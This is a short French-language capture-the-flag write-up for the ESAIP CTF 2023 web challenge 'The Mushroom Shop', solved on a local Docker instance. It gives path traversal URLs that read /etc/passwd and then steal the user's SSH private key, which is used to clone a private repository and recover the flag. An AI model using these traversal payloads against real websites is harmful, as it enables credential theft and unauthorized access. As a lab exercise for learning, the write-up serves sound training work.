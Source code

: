 # The Mushroom Shop

**Category** : World 2
**Points** : 400

Mario has decided to create his online mushrooms store.

Before the official launch he would like to make sure that his website is secure.

https://mushroom-shop.esaip-cyber.com/

**Author: Osy_Ris**


**Les liens ne sont pas ceux utilisé durant le CTF, pour faire le writeups j'ai utilisé le docker file fournit ici : https://github.com/ESAIP-CTF/public-esaip-ctf-2023/tree/master/challenges/web/the_mushroom_shop** 

Après une analyse du site on découvre un faille qui nous permet de lire le fichier /etc/passwd : 

http://127.0.0.1/?page=../../../../../../etc/passwd

nous découvrons l'utilisateur User :
```
User,,,:/home/mario:/bin/ash
```
On recherche son activité via : 

```
cd ls -al cd /var/www/html/ 
git clone git@github.com:MarioMushroomShop/MyMushroomShop.git 
rm -rf /var/www/html/.git exit
```

On a donc l'info qu'il a utilisé la commande git pour récupérer son projet et cela via ssh

en tentant d'aller sur le projet, celui-ci n'est pas ouvert au public

recherche de la clef privé de mario via : 
http://127.0.0.1/?page=../../../../../../home/mario/.ssh/id_rsa

puis en clonant le repos en utilisant cette clef , on trouve dans les source du projet le flag : 

le flag : ```ECTF{taK3_c4re_0F_Y0Ur_PRIV4t3_REPos}```
